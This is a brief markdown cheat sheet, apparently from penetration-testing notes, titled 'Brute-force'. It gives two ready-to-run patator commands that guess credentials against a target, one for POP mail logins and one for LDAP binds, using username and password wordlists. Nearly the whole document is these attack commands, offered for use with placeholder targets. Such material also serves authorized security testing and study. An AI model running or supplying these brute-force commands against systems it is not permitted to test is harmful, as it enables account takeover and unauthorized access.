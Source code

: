 # Brute-force

## POP

```bash
python patator.py pop_passd host=<ip> user=FILE0 password=FILE1 0=usernames.txt  1=top-1000.txt -x ignore:code=500
```

## LDAP

```bash
python patator.py ldap_login host=<target> binddn='CN=FILE0,dc=<domain>,dc=<fqdn>' bindpw=FILE1 0=users.txt 1=passwords.txt
```

